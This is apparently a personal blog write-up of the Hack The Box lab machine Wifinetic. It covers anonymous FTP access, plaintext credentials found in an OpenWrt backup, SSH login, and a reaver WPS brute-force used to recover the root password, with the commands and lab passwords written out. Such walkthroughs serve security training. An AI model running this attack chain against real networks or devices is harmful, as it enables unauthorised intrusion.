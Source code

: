 ```yaml
---
layout: post
title: Hack The Box - Wifinetic Writeup
date: 2024-07-20 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![valentineBadge.png](/assets/img/Wifinetic/wifineticBadge.png)

## Summary

By using anonymous login I was able to log in to `ftp` server and download all files listed there to my local machine for further inspection. Most interesting file is `backup-OpenWrt-2023-07-26.tar`. I was able to extract files from this archive and by inspecting contents of these files I found valid credentials to `ssh` in box as user `netadmin`. While enumerating system as user `netadmin` I found there are some wireless interfaces present on the system. I used `iwconfig` to further display information about these interfaces. One of these interfaces, namely `mon0` is in monitor mode. This can be exploited by doing `WPS` brute-force. To perform this attack we need wireless interface in monitoring mode (`mon0`) and BSSID of the Access Point. To obtain BSSID I used `iw dev` command. 
I was able to perform this attack using `reaver` tool which is pre-installed on the victim machine. A Successful attack resulted in obtaining WPA password which can be used to access system as root. 

## Reconnaissance

### Nmap

```
nmap -sV -sC -p- -oN ./nmapAll.txt --max-retries=1 10.10.11.247
```

```
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80, 443 |

#### Port 21

Anonymous access is allowed so I was able to log in. 

```
ftp anonymous@10.10.11.247
```

![ftp.png](/assets/img/Wifinetic/ftp.png)

By inspecting documents I was able to gather some usernames which could come in handy later.

```
HR Manager
samantha.wood93@wifinetic.htb
```

```
Oliver Walker
Wireless Network Administrator
olivia.walker17@wifinetic.htb
```

More interesting is `OpenWrt` backup file.
##### Backup archive 

After extracting `.tar` archive I was presented with these files:

![etc2.png](/assets/img/Wifinetic/etc2.png)

`passwd` file immediately caught my attention because it could contain valid accounts. We can see that there is only one account that looks interesting and it is `netadmin`. 

![etcPasswd.png](/assets/img/Wifinetic/etcPasswd.png)

Analyzing files in `/etc/config` directory I found plaintext password in `wireless` file.  

![configWirteless2.png](/assets/img/Wifinetic/configWirteless2.png)

```
VeRyUniUqWiFIPasswrd1!
```

## Exploitation

### Initial Foothold

We can `ssh` into the box using credentials found during enumeration phase. 

```
netadmin : VeRyUniUqWiFIPasswrd1!
```

![sshLogin.png](/assets/img/Wifinetic/sshLogin.png)

## Post Exploitation

### Information Gathering

I used `ip` command to display all network interfaces which revealed multiple wireless interfaces.

```
ip addr
```

![ipaddr.png](/assets/img/Wifinetic/ipaddr.png)

We can use `iwconfig` to further display information related to wireless interfaces. 

```
iwconfig
```

![iwconfig.png](/assets/img/Wifinetic/iwconfig.png)

We should note that `mon0` interface is in monitor mode. Monitor mode allows `wifi` interface to monitor all traffic in wireless network.   
### Privilege Escalation

#### WPS Bruteforce

To perform this attack I will use tool called `reaver` which is already installed on victim machine. In order to successfully perform this attack we need few things. First we need to specify interface which is in monitoring mode (`mon0`) and BSSID of the Access Point. To obtain BSSID I used `iw dev` command.

```
iw dev
```

![iwdev2.png](/assets/img/Wifinetic/iwdev2.png)

Now with all information needed we can perform the attack.

```
reaver -i mon0 -b 02:00:00:00:00:00
```

![reaver.png](/assets/img/Wifinetic/reaver.png)

Attack was successful and I was able to obtained WPA password.

```
WhatIsRealAnDWhAtIsNot51121!
```

Trying this password for root we can get access with full privileges. 

![escalation.png](/assets/img/Wifinetic/escalation.png)

### Root Flag

![rootFlag.png](/assets/img/Wifinetic/rootFlag.png)